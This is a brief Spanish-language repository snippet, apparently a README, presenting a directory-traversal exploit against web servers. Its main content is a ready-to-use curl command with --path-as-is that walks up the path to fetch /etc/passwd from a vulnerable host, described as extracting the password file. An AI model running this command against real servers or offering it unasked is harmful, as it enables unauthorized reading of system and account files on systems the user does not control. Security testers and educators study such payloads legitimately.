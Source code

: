 # directoriotrasversal
#
# Exploits para extraer por http la password en la carperta Linux /etc/passwd, en paginas vulnerables a directorio traversal.
#

curl --path-as-is http://ip:80/../../../../../etc/passwd

www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
